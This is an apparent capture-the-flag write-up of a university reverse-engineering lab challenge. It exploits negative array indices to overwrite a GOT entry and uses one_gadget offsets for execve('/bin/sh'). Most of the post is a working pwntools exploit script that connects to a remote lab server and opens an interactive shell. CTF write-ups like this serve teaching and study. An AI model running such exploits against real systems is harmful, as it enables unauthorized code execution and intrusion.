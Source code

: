 ```yaml
---
layout: post
title:  UNIBUC_RE_lab_7_task_2
image: /assets/img/UNIBUC_RE.jpg
date:   2022-09-01 16:39:01
tags:
- pwn
description: This challenge is a challenge where we can modify bytes in memory using indices.
categories:
- UNIBUC RE
---
```


This challenge is a challenge where we can modify bytes in memory using indices.

Security of the binary:
```Not stripped
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```
Vulnerable function is :

![](/assets/img/2022-09-02-15-45-45.png)


The exploit is done by negative indices, we use onegadget to get the gadget so we get system:
```
one_gadget libc.so
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xef6c4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf0567 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
Find some call to modify that is not called every time:
![](/assets/img/2022-09-02-16-00-50.png)
system call is only done when we are finished modifying so we will modify system got address.
0x4038-system
0x4080-array
difference is 72 so we modify offsets 72 and 71 and we try 16 times in order for our exploit to be successful because of random addresses (the last 3 nibbles are ok)
```
from pwn import *

io=remote('45.76.91.112', 10072)
#io = process("./task02")

io.recvuntil("Do you like the")
io.sendline('N')

io.sendline( '-72 22')
io.recvuntil("Finished")
io.sendline( 'N')
io.recvuntil("modify")


#gdb.attach(io,"break *vuln+253")
io.sendline( '-71 82')
io.sendline( 'Y')


io.sendline('ls')

io.interactive()
```
